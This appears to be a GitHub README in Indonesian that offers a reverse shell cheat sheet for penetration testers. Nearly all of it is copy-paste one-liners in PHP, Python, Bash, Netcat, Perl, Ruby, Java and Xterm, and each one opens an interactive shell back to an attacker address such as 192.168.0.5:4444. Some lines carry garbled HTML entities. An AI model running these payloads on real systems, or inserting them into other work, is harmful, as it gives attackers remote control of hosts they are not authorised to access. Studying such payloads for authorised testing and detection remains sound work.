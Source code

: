 <p align="left"><a href="https://www.itsecurity.id/"><img height="150" title="Xcod3bughunt3r" src="0011.png"/></a></p>

# ***Xcod3 - Shell Scripts***
##### ``Koleksi skrip shell yang saya buat.``
### ***Reverse Shell Cheat Sheet***
##### ``Jika Anda cukup beruntung untuk menemukan kerentanan eksekusi perintah selama tes penetrasi, segera setelah itu Anda mungkin akan menginginkan cangkang interaktif. Jika tidak mungkin untuk menambahkan akunbaru/file ssh/.rhosts dan cukup masuk, langkah Anda selanjutnya cenderung mengongkong kembali shell terbalik atau mengikat cangkang ke port TCP. Halaman ini berurusan dengan yang pertama. Pilihan Anda untuk membuat shell terbalik dibatasi oleh bahasa skrip yang diinstal pada sistem target - meskipun Anda mungkin dapat mengunggah program biner juga jika Anda dipersiapkan dengan baik. Contoh yang ditampilkan disesuaikan dengan sistem seperti unix. Beberapa contoh di bawah ini juga harus berfungsi pada Windows jika Anda menggunakan pengganti "/bin/sh -i" dengan "cmd.exe". Setiap metode di bawah ini bertujuan untuk menjadi satu liner yang dapat Anda salin/tempel. Karena itu adalah garis yang cukup pendek, tetapi tidak terlalu mudah dibaca.``

#### ***Php :***
```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'
```

#### ***Python :***
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### ***Bash :***
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

#### ***Netcat :***
```
nc -e /bin/sh 192.168.0.5 4444
```

#### ***Perl :***
```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```

#### ***Ruby :***
```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i &lt;&amp;%d &gt;&amp;%d 2&gt;&amp;%d",f,f,f)'
```

#### ***Java :***
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/192.168.0.5/4444;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()
```

#### ***Xterm :***
```
xterm -display 192.168.0.5:4444
```

#### ``DEVELOPERS:``*[Xcod3bughunt3r](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)*.
